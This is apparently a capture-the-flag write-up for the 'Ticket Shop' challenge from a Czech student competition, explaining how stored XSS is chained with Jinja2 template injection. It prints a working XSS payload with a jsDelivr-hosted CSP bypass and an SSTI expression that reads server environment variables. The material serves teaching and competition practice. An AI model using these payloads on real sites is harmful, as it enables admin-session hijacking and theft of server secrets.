









# Ticket Shop

## Kybersoutěž finále 2026

> **Kybersoutěž** (lit. *Cyber Competition*) is the Czech national cybersecurity competition, open to students aged 9–24 from primary, secondary, and higher education institutions. Organised as a CTF-style event, it aims to develop digital skills, identify talent, and raise awareness of cybersecurity threats among the younger generation in the Czech Republic.

### Overview

The flag is stored as a server-side environment variable. The goal is to exfiltrate it by chaining a stored XSS vulnerability with a Server-Side Template Injection (SSTI) payload injected into a PDF ticket template.

**Attack chain:**

1. Craft an XSS payload that executes in the admin's browser
2. Use the XSS to create a malicious PDF ticket template containing an SSTI payload that reads the `FLAG` environment variable
3. Use the XSS to create a new event assigned to that template
4. Purchase a ticket for the event as a regular user
5. Download the generated PDF ticket, which will contain the flag

---

### Infrastructure

The challenge is deployed via `docker-compose.yaml`:

```yaml
version: '3.7'

services:
redis:
    container_name: ticketshop-redis
    image: "cgr.dev/chainguard/redis:latest"
    platform: linux/amd64

web:
    container_name: ticketshop-web
    build:
    context: .
    dockerfile: Dockerfile
    platform: linux/amd64
    ports:
        - "1337:1337"
    environment:
    # IMPORTANT: Change ADMIN_PASSWORD before deployment!
    # The default password must not be used in production.
    ADMIN_PASSWORD: ${ADMIN_PASSWORD:-admin_secure_password_2026}
    REDIS_URL: redis://ticketshop-redis:6379
    FLAG: ${FLAG:-FLG{example_flag_for_development}}
    depends_on:
    - redis

bot:
    container_name: ticketshop-bot
    build:
    context: src/bot/
    dockerfile: Dockerfile
    platform: linux/amd64
    shm_size: 2gb
    environment:
    # IMPORTANT: Must match the web service ADMIN_PASSWORD
    ADMIN_PASSWORD: ${ADMIN_PASSWORD:-admin_secure_password_2026}
    APP_URL: http://ticketshop-web:1337
    REDIS_URL: redis://ticketshop-redis:6379
    depends_on:
    - redis
    - web
```

The flag is passed to the web container as the `FLAG` environment variable. The `bot` service simulates an admin user that periodically visits the application — this is the XSS target.

---

### Vulnerability Analysis

#### Step 1 — Identifying the XSS entry point



After registering a user account, it is possible to deposit credit and include an optional note with the request. This note field is vulnerable to **stored XSS**.


#### Step 2 — Understanding the admin endpoints

Reviewing the source code reveals two key admin-only endpoints. The first creates ticket templates from raw HTML:

```python
    @admin_bp.route('/templates/create', methods=['GET', 'POST'])
    @admin_required
    def create_template():
        """Create new ticket template"""
        if request.method == 'POST':
            name = request.form.get('name', '').strip()
            html_content = request.form.get('html_content', '').strip()
            is_default = request.form.get('is_default') == 'on'

            if not name or not html_content:
                flash('Please provide template name and content.', 'error')
                return redirect(url_for('admin.create_template'))

            # If setting as default, unset other defaults
            if is_default:
                TicketTemplate.query.update({'is_default': False})

            template = TicketTemplate(
                name=name,
                html_content=html_content,
                is_default=is_default
            )

            db.session.add(template)
            db.session.commit()

            flash(f'Template "{name}" created successfully.', 'success')
            return redirect(url_for('admin.templates'))

        # Provide default template as starting point
        default_html = get_default_ticket_template()
        return render_template('admin/templates/create.html', default_html=default_html)
```


```python
    @admin_bp.route('/events/create', methods=['GET', 'POST'])
    @admin_required
    def create_event():
        """Create new event"""
        if request.method == 'POST':
            name = request.form.get('name', '').strip()
            description = request.form.get('description', '').strip()
            date_str = request.form.get('date', '')
            time_str = request.form.get('time', '')
            location = request.form.get('location', '').strip()
            ticket_price = request.form.get('ticket_price', '')
            total_tickets = request.form.get('total_tickets', '')
            is_published = request.form.get('is_published') == 'on'
            template_id = request.form.get('template_id') or None

            # Validation
            if not all([name, description, date_str, time_str, location, ticket_price, total_tickets]):
                flash('Please fill in all required fields.', 'error')
                return redirect(url_for('admin.create_event'))

            try:
                # Combine date and time
                datetime_str = f"{date_str} {time_str}"
                event_date = datetime.strptime(datetime_str, '%Y-%m-%d %H:%M')
                ticket_price = float(ticket_price)
                total_tickets = int(total_tickets)

                if ticket_price < 0 or total_tickets < 1:
                    raise ValueError("Invalid price or ticket count")

            except ValueError as e:
                flash(f'Invalid input: {str(e)}', 'error')
                return redirect(url_for('admin.create_event'))

            # Handle image upload
            image_path = None
            if 'image' in request.files:
                file = request.files['image']
                if file and file.filename and allowed_file(file.filename):
                    filename = secure_filename(file.filename)
                    # Add timestamp to avoid conflicts
                    filename = f"{datetime.now().timestamp()}_{filename}"
                    filepath = os.path.join(current_app.config['UPLOAD_FOLDER'], filename)
                    file.save(filepath)
                    image_path = f"uploads/{filename}"

            event = Event(
                name=name,
                description=description,
                date=event_date,
                location=location,
                image_path=image_path,
                ticket_price=ticket_price,
                total_tickets=total_tickets,
                is_published=is_published,
                ticket_template_id=int(template_id) if template_id else None
            )

            db.session.add(event)
            db.session.commit()

            flash(f'Event "{name}" created successfully.', 'success')
            return redirect(url_for('admin.events'))

        templates = TicketTemplate.query.all()
        return render_template('admin/events/create.html', templates=templates)
```

The second creates events and allows assigning a custom ticket template. Crucially, the `html_content` of a template is rendered server-side by Jinja2 when a PDF ticket is generated — meaning it is vulnerable to **SSTI**.

#### Step 3 — Crafting the XSS payload

The XSS payload will execute automatically when the admin bot visits the "Credit Requests" page. It performs two authenticated `POST` requests on behalf of the admin:

1. Creates a ticket template whose `html_content` contains an SSTI expression that reads the `FLAG` environment variable
2. Creates a new public event assigned to that template

**XSS payload logic (unminified):**

```javascript
    var t = new FormData();

    t.append('name', 'p');
    t.append('html_content', `{{lipsum.__globals__['os'].environ.get('FLAG')}}`);
    t.append('is_default', 'on');

    fetch('/admin/templates/create', { method:'POST', body: t })
    .then(r => r.text())
    .then(h => {
        var m = h.match(/templates\/(\d+)\/edit/);
        var id = m ? m[1] : '2';
        var e = new FormData();
        e.append('name', 'flagev');
        e.append('date', '2027-01-01');
        e.append('time', '12:00');
        e.append('description', 'x');
        e.append('location', 'x');
        e.append('ticket_price', '0');
        e.append('total_tickets', '999');
        e.append('is_published', 'on');
        e.append('template_id', id);
        fetch('/admin/events/create', { method:'POST', body: e })
    })
```

#### Step 4 — Bypassing the Content Security Policy

The application sets the following CSP headers:

```python
    # Add security headers including CSP
    @app.after_request
    def add_security_headers(response):
        # Strict CSP to prevent XSS exploitation
        csp_directives = [
            "default-src 'self'",
            "script-src 'self' https://cdn.jsdelivr.net",
            "style-src 'self' https://cdn.jsdelivr.net 'unsafe-inline'",
            "font-src 'self' https://cdn.jsdelivr.net",
            "img-src 'self' data:",
            "connect-src 'self' https://cdn.jsdelivr.net",
            "frame-ancestors 'none'",
            "base-uri 'self'",
            "form-action 'self'"
        ]
        response.headers['Content-Security-Policy'] = "; ".join(csp_directives)
        response.headers['X-Content-Type-Options'] = 'nosniff'
        response.headers['X-Frame-Options'] = 'DENY'
        return response
```

The CSP blocks inline scripts but trusts `https://cdn.jsdelivr.net`. One option would be to publish a JavaScript file to a GitHub repository and serve it via jsDelivr, but this is time-consuming. A faster approach is to use the [`csp-bypass`](https://github.com/CanardMandarin/csp-bypass) library, which is already hosted on jsDelivr and executes JavaScript supplied via a `csp` attribute — effectively turning a CSP-trusted CDN against itself.

**Final XSS payload (injected into the credit request note field):**

```html
</td>
</tr>
</tbody>

</table>
<script src="https://cdn.jsdelivr.net/npm/csp-bypass@1.0.2/dist/sval-classic.min.js"></script>
<br csp="var t=new FormData();t.append('name','p');t.append('html_content',`{{lipsum.__globals__['os'].environ.get('FLAG')}}`);t.append('is_default','on');fetch('/admin/templates/create',{method:'POST',body:t}).then(r=>r.text()).then(h=>{var m=h.match(/templates\/(\d+)\/edit/);var id=m?m[1]:'2';var e=new FormData();e.append('name','flagev');e.append('date','2027-01-01');e.append('time','12:00');e.append('description','x');e.append('location','x');e.append('ticket_price','0');e.append('total_tickets','999');e.append('is_published','on');e.append('template_id',id);fetch('/admin/events/create',{method:'POST',body:e})})">
<table>

<tbody>
<tr>
<td>
```


---

### Exploitation



The XSS payload is pasted into the note field of a credit request and submitted.



When the admin bot visits the "Credit Requests" page, the stored XSS fires automatically and silently creates the malicious template and event.



Navigating to the "Events" page reveals the newly created `flagev` event, confirming that the XSS executed successfully.



Opening the event detail page and adding a ticket to the cart.



Reviewing the shopping cart.



Proceeding to checkout.



Completing the order.



The generated PDF ticket contains the flag, extracted from the server-side environment variable via the SSTI payload rendered by Jinja2.
